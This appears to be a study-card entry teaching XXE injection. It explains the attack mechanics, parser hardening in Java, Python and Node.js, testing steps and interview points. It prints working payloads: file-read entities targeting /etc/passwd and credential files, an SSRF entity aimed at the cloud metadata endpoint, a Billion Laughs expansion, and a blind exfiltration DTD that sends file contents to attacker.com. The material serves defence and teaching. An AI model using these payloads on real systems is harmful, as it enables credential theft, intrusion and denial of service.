

⚡ TL;DR - XXE (XML External Entity) injection occurs when XML
parsers process DOCTYPE declarations containing external entity
references. An attacker crafts XML with a malicious DOCTYPE that
instructs the parser to include the contents of a file (e.g.,
`/etc/passwd`) or make a network request (SSRF via XXE). Fix:
disable DOCTYPE processing (`FEATURE_DISALLOW_DOCTYPE_DECL`).
Never use whitelisting around DTDs - just disable them entirely.

---

| #061 | Category: Security | Difficulty: ★★★ |
|:---|:---|:---|
| **Depends on:** | OWASP Top 10, Input Validation, Security Fundamentals, Security Code Review, SSRF | |
| **Used by:** | SAST, Security Performance Testing | |
| **Related:** | SSRF (XXE can be used for SSRF), Injection, File Read attacks | |

---

### 🔥 The Problem This Solves

**WHY XXE MATTERS:**

```
XXE ATTACK: Read /etc/passwd via a "safe" XML upload

VULNERABLE APPLICATION:
  Feature: Upload XML configuration file
  Server: parses the XML to extract config settings
  
  Attacker submits:
    <?xml version="1.0"?>
    <!DOCTYPE root [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <root>
      <name>&xxe;</name>
    </root>
  
  What happens:
    1. Parser sees DOCTYPE declaration - "define external entity"
    2. Parser follows: SYSTEM "file:///etc/passwd"
    3. Reads /etc/passwd from the server's filesystem
    4. Substitutes the file contents into &xxe;
    5. Application uses <name> value = ENTIRE /etc/passwd file
    6. Application returns response containing /etc/passwd content
  
  Attacker receives:
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
  
  Other file targets:
    "file:///etc/shadow"         (password hashes - if readable)
    "file:///proc/self/environ"  (environment variables = secrets)
    "file:///app/config/database.yml" (database credentials)
    "file:///.aws/credentials"   (AWS credentials)
    "file:///etc/ssh/id_rsa"    (SSH private key)

XXE AS SSRF:
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
  Triggers an HTTP request from the server to the metadata endpoint.
  Same attack chain as direct SSRF: XXE → SSRF → IAM credentials.

XXE BILLION LAUGHS (DoS):
  <?xml version="1.0"?>
  <!DOCTYPE root [
    <!ENTITY a "lol">
    <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
    <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
    <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
    <!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
  ]>
  <root>&e;</root>
  
  &e; expands to 10^4 = 10,000 "lol" strings.
  Add more levels: 10^8 = 100 million.
  Pure CPU/memory DoS via recursive entity expansion.
```

---

### 📘 Textbook Definition

**XML External Entity (XXE) Injection:** A vulnerability in XML
parsers that process Document Type Definitions (DTDs). An external
entity is an XML feature that instructs the parser to load content
from an external source (file system or network). When user-supplied
XML is parsed with DTD processing enabled, an attacker can define
malicious entities that read local files or initiate network requests.

**Entity types:**
- **Internal entity:** `<!ENTITY name "value">` - simple string substitution.
- **External entity (file):** `<!ENTITY name SYSTEM "file:///path">` - reads a file.
- **External entity (network):** `<!ENTITY name SYSTEM "http://server/">` - SSRF.

**Blind XXE:** The XML parser processes the entity but the expanded
value is not reflected in the response. Exploited via out-of-band
techniques: DNS callbacks or HTTP requests to attacker-controlled
servers exfiltrate the file contents.

**OWASP category:** A05 (Security Misconfiguration) - XML parsers
ship with DTD processing enabled by default. Enabling it is a
misconfiguration. Also OWASP A04 (Insecure Design) when application
design requires XML parsing of untrusted input.

---

### ⏱️ Understand It in 30 Seconds

**One line:**
XXE = XML parsers execute DOCTYPE instructions in attacker-supplied
XML, causing the server to read local files or make network requests.
Fix: disable DOCTYPE processing in the XML parser configuration.

**One analogy:**
> XXE is like a contract clause that says:
> "See Exhibit A" and Exhibit A is "whatever's in the filing
> cabinet marked /etc/passwd."
>
> The lawyer (XML parser) dutifully retrieves Exhibit A (reads
> the file) and includes it in the contract (the parsed result).
>
> The fix: "This office does not process contracts that reference
> external exhibits. All content must be self-contained."
> (DOCTYPE processing disabled. External entities refused.)

---

### 🔩 First Principles Explanation

**How to disable XXE across major XML parsers:**

```
JAVA - JAXP DocumentBuilderFactory:

  BAD (vulnerable - default settings):
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    DocumentBuilder builder = factory.newDocumentBuilder();
    Document doc = builder.parse(xmlInput);  // Processes DTDs!
  
  GOOD (secure):
    DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
    
    // Disable external DTDs entirely
    factory.setFeature(
        "http://apache.org/xml/features/disallow-doctype-decl",
        true
    );
    
    // Belt and suspenders: also disable entity expansion
    factory.setFeature(
        "http://xml.org/sax/features/external-general-entities",
        false
    );
    factory.setFeature(
        "http://xml.org/sax/features/external-parameter-entities",
        false
    );
    factory.setXIncludeAware(false);
    factory.setExpandEntityReferences(false);
    
    DocumentBuilder builder = factory.newDocumentBuilder();
    Document doc = builder.parse(xmlInput);  // DTDs refused

  WHY THIS IS THE RIGHT FIX:
    "disallow-doctype-decl" = reject any XML with a DOCTYPE declaration.
    This is the recommended setting unless your application MUST process DTDs.
    It fails loudly: throws SAXParseException if a DOCTYPE is present.
    
    The alternative (disabling specific entity types without disabling DOCTYPE)
    is error-prone: XML has many entity types; one missed setting = still vulnerable.
    Prefer the nuclear option: if you don't need DTDs, disable them entirely.

PYTHON - defusedxml (defensive XML library):

  BAD:
    from xml.etree import ElementTree
    tree = ElementTree.parse(untrusted_xml)  # Vulnerable to XXE in some versions
    
    import xml.etree.ElementTree as ET
    ET.parse(xml_file)  # Python's stdlib: not vulnerable to file read, but
                        # defusedxml adds protection against billion laughs
  
  GOOD:
    import defusedxml.ElementTree as ET  # pip install defusedxml
    tree = ET.parse(xml_file)
    # defusedxml: raises DefusedXmlException on malicious input
    # Protects against: billion laughs, quadratic blowup, DTD fetching

  defusedxml also provides:
    defusedxml.minidom.parseString()
    defusedxml.sax.parseString()
    defusedxml.lxml.fromstring()  (requires lxml)

NODE.JS:
  
  BAD (fast-xml-parser default config):
    const parser = new XMLParser();  // Default: entity expansion enabled
  
  GOOD:
    const { XMLParser } = require('fast-xml-parser');
    const parser = new XMLParser({
        processEntities: false,  // Disable entity processing
        ignoreDeclaration: true, // Ignore DOCTYPE declarations
    });

SPRING / SPRING BOOT:
  
  Spring Boot auto-configures Jackson for JSON. For XML:
    If using Jackson XML: Jackson does NOT process DTDs by default.
    Safe out of the box for XXE.
    
    If using JAX-RS with JAXB:
      Annotate your provider to disable DTD.
      Or use @XmlAccessorType(XmlAccessType.FIELD) and
      the Java JAXP configuration above.
    
  Prefer Jackson XML over JAXB for REST APIs - fewer security footguns.
```

---

### 🧪 Thought Experiment

**SCENARIO: Blind XXE via error message exfiltration**

```
SCENARIO: XML parsed on the server, no content reflected in response.
  "File uploaded successfully." (200 OK, no XML data in response)
  
BLIND XXE WITH DNS CALLBACK (prove SSRF is possible):
  <!DOCTYPE root [
    <!ENTITY xxe SYSTEM "http://abcdef.burpcollaborator.net/">
  ]>
  <root>&xxe;</root>
  
  If DNS query appears in Burp Collaborator: XXE confirmed (SSRF working).
  Server is making outbound HTTP requests from the XML entity.

BLIND XXE: EXFILTRATE FILE CONTENTS VIA OUT-OF-BAND:
  The classic technique: error-based exfiltration via parameter entities.
  
  Step 1: Attacker hosts a DTD on their server (attacker.com/evil.dtd):
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM
        'http://attacker.com/?data=%file;'>">
    %eval;
    %exfil;
  
  Step 2: Attacker submits XML referencing their DTD:
    <?xml version="1.0"?>
    <!DOCTYPE root [
      <!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd">
      %remote;
    ]>
    <root/>
  
  Step 3: Server:
    1. Fetches evil.dtd from attacker.com (SSRF via XXE)
    2. Processes the DTD - defines %file entity = /etc/passwd content
    3. Evaluates %exfil: makes request to http://attacker.com/?data=[passwd content]
    4. Attacker's server logs: GET /?data=root:x:0:0:root:/root:/bin/bash...
  
  File contents arrive at attacker's server via HTTP GET parameter.
  All without the vulnerability returning any content in the response.

DEFENSE:
  The only reliable defense is to disable DOCTYPE processing entirely.
  Even blind XXE is possible when DTD processing is enabled.
  Monitoring: watch for unusual outbound HTTP requests from XML processors.
```

---

### 🧠 Mental Model / Analogy

> XXE is like a form that says "attach supporting documents."
>
> A normal form:
> "Attach supporting documents. Documents will be included in your file."
>
> The XXE attack:
> "Attach supporting documents." Attacker writes: "see /etc/passwd as document."
> The clerk (XML parser) dutifully retrieves /etc/passwd and staples it
> to the application. The attacker then reads whatever was sent to the clerk.
>
> The fix: "This form does not accept references to external documents.
> All supporting information must be typed directly into the form.
> References to external files or websites will be rejected."
> (DOCTYPE disabled. Only inline content processed.)
>
> For blind XXE: the form goes to an internal processing department
> (no response). But the clerk still retrieves /etc/passwd and the
> attacker gets a notification from their mail server when the clerk
> visits their web address (DNS callback). The clerk's visit proves
> the form was processed with external document access enabled.

---

### 📶 Gradual Depth - Five Levels

**Level 1 - What it is (anyone can understand):**
XXE is a vulnerability in XML parsing. XML has a feature (DOCTYPE) that lets you define shortcuts that reference external files or web pages. When attackers send you XML with a DOCTYPE that references /etc/passwd, your XML parser dutifully reads that file and includes it in the parsed result. The attacker then reads your server's private files. Fix: disable the DOCTYPE feature in your XML parser.

**Level 2 - How to use it (junior developer):**
When processing XML from external sources, disable DOCTYPE processing in the XML parser. In Java: `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`. In Python: use `defusedxml` instead of standard library XML modules. Never write your own XML sanitization - the entity feature has too many variants to reliably block with filtering. Disable it entirely.

**Level 3 - How it works (mid-level engineer):**
XXE is a feature of the XML specification, not a bug. External entities allow XML documents to reference content from other sources, a useful feature for splitting large documents. The security problem: when user-supplied XML is parsed with this feature enabled, attackers control which external sources are referenced. The `SYSTEM "file:///etc/passwd"` URI scheme instructs the parser to use the file: protocol to read local files. The `SYSTEM "http://..."` URI scheme triggers HTTP requests (SSRF). Blind XXE uses parameter entities (with `%` prefix) which are only valid in DTDs themselves, allowing complex out-of-band exfiltration via a DTD loaded from an attacker-controlled server.

**Level 4 - Why it was designed this way (senior/staff):**
External entities were added to XML to support modular document authoring - a documentation set where each chapter is a separate XML file, assembled via entity references. The security oversight: when XML became the dominant data interchange format in the 2000s (SOAP, REST-over-XML, configuration files), parsers kept these authoring features enabled by default. They were never designed for user-supplied untrusted input. The "disallow-doctype-decl" setting was added as a security retrofit, not part of the original design. This is a recurring pattern in security: a feature designed for one context (trusted document authoring) becomes a vulnerability in a different context (untrusted network input). OWASP A05 (Security Misconfiguration) captures this: the default configuration of XML parsers is insecure for the typical web application use case.

**Level 5 - Mastery (distinguished engineer):**
Advanced XXE: SSRF via XXE bypasses network controls that block SSRF at the application layer. If an application validates HTTP fetch URLs but uses an XML parser elsewhere, the XXE path bypasses URL validation. XXE in SVG files: SVG is XML, and image processing libraries that parse SVG (ImageMagick in some configurations, browser-side SVG processing) can be vulnerable. An uploaded SVG containing a DOCTYPE entity triggers XXE when the server processes it. XXE in PDF generators: some PDF generation tools process XML intermediary formats (XSL-FO) that can contain DOCTYPE declarations. The attack surface is any XML parser processing untrusted input - not just obvious XML upload endpoints. At scale: XXE scanning in SAST (static analysis) is effective because the vulnerable patterns (constructing a `DocumentBuilderFactory` without the security features set) are identifiable in code. Semgrep has rules for XXE in Java, Python, Node.js.

---

### ⚙️ How It Works (Mechanism)

```
XML PARSING WITH XXE (normal flow vs attack):

NORMAL FLOW:
  Input XML:
    <?xml version="1.0"?>
    <order>
      <product>Widget A</product>
      <quantity>5</quantity>
    </order>
  
  Parser: builds DOM tree, no entities to resolve.
  Output: order.product = "Widget A", order.quantity = 5

ATTACK FLOW:
  Input XML:
    <?xml version="1.0"?>
    <!DOCTYPE order [                          ← DTD declaration begins
      <!ENTITY price SYSTEM "file:///etc/passwd"> ← External entity definition
    ]>
    <order>
      <product>&price;</product>              ← Entity reference
      <quantity>5</quantity>
    </order>
  
  Parser (DTD processing enabled):
    1. Sees <!DOCTYPE order [...]> → enters DTD processing
    2. Sees <!ENTITY price SYSTEM "file:///etc/passwd">
       → resolves: reads file, stores content as "price" entity value
    3. Sees &price; in <product> → substitutes the file contents
  
  Output: order.product = "root:x:0:0:root:\n..."
  
  If application logs or returns <product>: attacker sees /etc/passwd.

PARSER (DTD disabled - correct):
  Input XML: same malicious XML
  Parser: sees <!DOCTYPE> declaration → throws SAXParseException
  "DOCTYPE is disallowed when the feature http://apache.org/xml/features/
  disallow-doctype-decl is set to true."
  
  No entity resolution. No file read. Exception handled by application.
  Application: returns 400 Bad Request (invalid XML).
```



---

### 💻 Code Example

**Java secure XML parsing - complete example:**

```java
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.ParserConfigurationException;
import org.w3c.dom.Document;
import org.xml.sax.SAXException;
import org.xml.sax.InputSource;
import java.io.*;

public class SecureXmlParser {

    private static DocumentBuilderFactory createSecureFactory()
            throws ParserConfigurationException {
        DocumentBuilderFactory factory =
            DocumentBuilderFactory.newInstance();
        
        // PRIMARY FIX: Disallow DOCTYPE entirely
        factory.setFeature(
            "http://apache.org/xml/features/disallow-doctype-decl",
            true
        );
        
        // Additional hardening (belt + suspenders)
        factory.setFeature(
            "http://xml.org/sax/features/external-general-entities",
            false
        );
        factory.setFeature(
            "http://xml.org/sax/features/external-parameter-entities",
            false
        );
        factory.setFeature(
            "http://apache.org/xml/features/nonvalidating/load-external-dtd",
            false
        );
        factory.setXIncludeAware(false);
        factory.setExpandEntityReferences(false);
        
        return factory;
    }

    public static Document parseXml(String xmlContent)
            throws Exception {
        DocumentBuilderFactory factory = createSecureFactory();
        DocumentBuilder builder = factory.newDocumentBuilder();
        
        try {
            return builder.parse(
                new InputSource(new StringReader(xmlContent))
            );
        } catch (SAXException e) {
            if (e.getMessage().contains("DOCTYPE")) {
                throw new IllegalArgumentException(
                    "XML with DOCTYPE declarations is not allowed"
                );
            }
            throw e;
        }
    }
}
```

---

### ⚖️ Comparison Table

| Parser | Default State | Fix |
|:---|:---|:---|
| **Java JAXP (DocumentBuilderFactory)** | DTD enabled (VULNERABLE) | `setFeature("disallow-doctype-decl", true)` |
| **Java SAXParser** | DTD enabled (VULNERABLE) | Same feature flags |
| **Python xml.etree.ElementTree** | Partial protection (no file read in CPython 3.8+) | Use `defusedxml` for full protection |
| **Python lxml** | Resolves external DTDs (VULNERABLE) | `resolve_entities=False, no_network=True` |
| **Node.js fast-xml-parser** | Entity expansion depends on config | `processEntities: false` |
| **Jackson XML (Java)** | DTD disabled by default | Safe by default |

---

### ⚠️ Common Misconceptions

| Misconception | Reality |
|:---|:---|
| "We validate the XML schema, so XXE is prevented." | XML schema validation (XSD) happens AFTER parsing. By the time the schema is validated, the XML parser has already expanded the entities - including any external ones. Schema validation does not prevent XXE. The fix must happen at the parser configuration level, before the XML content is processed: disable DOCTYPE via `disallow-doctype-decl`. Schema validation confirms the structure of the resulting document; it cannot undo a file read that happened during entity expansion. |
| "We sanitize XML by stripping DOCTYPE from the input string." | String-based sanitization of XML is notoriously fragile. XML entity declarations can be represented with varying whitespace, encoding, and comment injection that bypasses string matching. There are documented bypasses for DOCTYPE string-based filters. The only reliable defense is to configure the parser to refuse DOCTYPE declarations at the parser level. Parsing at the language/library level is not a security control. The OWASP XXE Cheat Sheet explicitly warns against sanitization-based approaches. |

---

### 🚨 Failure Modes & Diagnosis

**Finding XXE in applications:**

```
TESTING FOR XXE:

Step 1: Identify XML input vectors
  - Upload endpoints accepting XML files (.xml, .docx, .xlsx, .svg, .xsl)
  - APIs with Content-Type: application/xml or text/xml
  - SOAP web services
  - Configuration import features
  - RSS/Atom feed processors
  - Document conversion features (HTML→PDF, Word→PDF)
  Note: DOCX, XLSX, ODT, SVG are all XML formats.
        A "file upload" for documents may parse XML internally.

Step 2: Basic XXE test (reflected)
  Insert into XML body:
    <?xml version="1.0"?>
    <!DOCTYPE test [
      <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <root>&xxe;</root>
  
  Look for /etc/passwd content in response.
  Expected if patched: SAXParseException or 400 Bad Request.

Step 3: XXE SSRF test
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
  Expect: AWS metadata content in response (if SSRF vulnerable)
  Or: Burp Collaborator callback (blind SSRF confirmed)

Step 4: Blind XXE test
  Use Burp Collaborator: replace URL with collaborator subdomain.
  Check for DNS/HTTP callbacks.

SAST DETECTION (Java):
  Semgrep rule: find DocumentBuilderFactory without disallow-doctype-decl:
    pattern: |
      $FACTORY = DocumentBuilderFactory.newInstance()
      ...
      $FACTORY.newDocumentBuilder()
    message: "Check for XXE protection in DocumentBuilderFactory"
```

---

### 🔗 Related Keywords

**Prerequisites:**
- `OWASP Top 10` - A05 Security Misconfiguration, A04 Insecure Design
- `Input Validation` - general input validation principles
- `SSRF` - XXE can trigger SSRF via network entities
- `Security Code Review` - finding XXE in code

**Builds on this:**
- `SAST` - static analysis rules for XXE detection
- `Security Testing in CI/CD` - automated XXE testing

---

### 📌 Quick Reference Card

```
┌──────────────────────────────────────────────────────────┐
│ PRIMARY FIX  │ disallow-doctype-decl = true (Java JAXP) │
│ PYTHON FIX   │ import defusedxml (replaces stdlib xml)   │
│ SAFE PARSER  │ Jackson XML (DTD disabled by default)     │
├──────────────┼───────────────────────────────────────────┤
│ ATTACK TYPE  │ File read: file:///etc/passwd             │
│              │ SSRF: http://169.254.169.254/             │
│              │ DoS: Billion Laughs (recursive entities)  │
├──────────────┼───────────────────────────────────────────┤
│ XML FORMATS  │ .docx/.xlsx/.pptx = ZIP of XML files     │
│ THAT ARE XML │ .svg = XML, .xsl = XML, .rss = XML       │
├──────────────┼───────────────────────────────────────────┤
│ OWASP        │ A05 Security Misconfiguration (2021)      │
└──────────────────────────────────────────────────────────┘
```

---

### 💎 Transferable Wisdom

**Reusable Engineering Principle:**
"Parser features designed for trusted documents are vulnerabilities
when processing untrusted input."
XML was designed for document authoring by trusted parties.
External entities, XInclude, and DTDs are legitimate features
for building modular document systems. They become vulnerabilities
when applied to user-supplied content in a web application context.
This pattern recurs across technologies:
- YAML deserialization: Python's `yaml.load()` can execute arbitrary
  Python when processing YAML with `!!python/object` tags. Fix: `yaml.safe_load()`.
- Java deserialization: `ObjectInputStream.readObject()` can execute
  code during deserialization of malicious serialized objects. Fix: explicit
  allowlisting of deserializable classes.
- SQL: raw string concatenation in queries interprets user input as SQL.
  Fix: parameterized queries (treat user input as data, not code).
- Template engines: Jinja2 `render(user_input)` interprets user input
  as template code. Fix: `render("{{ name }}", name=user_input)`.
The common thread: a feature that interprets input as instructions
(entities, tags, SQL, templates, deserialization type markers)
is dangerous when input comes from untrusted parties.
The fix in each case: use a restricted or safe mode that treats
input as data, not instructions.

---

### 💡 The Surprising Truth

DOCX, XLSX, and PPTX files are ZIP archives containing XML files.
When your application "processes a Word document," it typically
unzips the DOCX and parses the XML inside. If the XML parser
used for DOCX processing has DTD/external entity processing
enabled: a DOCX with a malicious DOCTYPE in its internal XML
files can trigger XXE - even though the user uploaded a "Word
document," not an "XML file."
Microsoft Office itself filters these entities in its parsers.
But third-party document processing libraries (Apache POI,
LibreOffice UNO API, various PDF/DOCX converters) may not.
In 2019, a XXE vulnerability was found in several online
document conversion services: upload a crafted DOCX → the
converter parsed the internal XML with DTD enabled → server's
/etc/passwd or AWS credentials returned in the converted output.
The attack surface for XXE is much wider than just endpoints
labeled "upload XML." Any endpoint that processes a file format
that uses XML internally (DOCX, XLSX, SVG, ODT, Atom feeds,
SAML assertions) is a potential XXE attack surface.

---

### ✅ Mastery Checklist

**You've mastered this when you can:**
1. **EXPLAIN** the XXE attack chain: DOCTYPE → external entity definition →
   `file:///etc/passwd` read → entity substituted into XML → returned in response.
2. **FIX** a vulnerable Java JAXP parser with the correct feature flags
   (`disallow-doctype-decl=true` plus the supplementary entity settings).
3. **IDENTIFY** non-obvious XXE attack surfaces: SVG files, DOCX/XLSX uploads,
   SAML assertions, RSS feed processors.
4. **DETECT** blind XXE using a DNS callback approach and explain the
   parameter entity out-of-band exfiltration technique.

---

### 🎯 Interview Deep-Dive

**Q: What is XXE injection? How do you prevent it?**

*Why they ask:* Tests XML security knowledge. Common in Java/enterprise
environments (SOAP, XML-heavy systems). Appears frequently in SAST findings.

*Strong answer covers:*
- XXE = XML parser processes DOCTYPE external entity declarations in
  untrusted input. External entities reference files (`file:///etc/passwd`)
  or network addresses (SSRF via `http://`). Parser fetches and substitutes
  the content.
- Attacks enabled: local file read (credentials, SSH keys, config files),
  SSRF (internal services, AWS metadata), Billion Laughs DoS.
- Fix: disable DOCTYPE processing in the parser, not in input filtering.
  Java: `factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`.
  Python: use `defusedxml` library instead of standard XML modules.
  Jackson XML: safe by default.
- Why not input filtering: XML encoding/whitespace variants bypass string matching.
  Parser-level configuration is the only reliable defense.
- Hidden attack surface: DOCX/XLSX/SVG are XML formats. XXE in file upload
  endpoints processing these formats, not just explicit XML uploads.
- OWASP: A05 Security Misconfiguration (default parser config is insecure).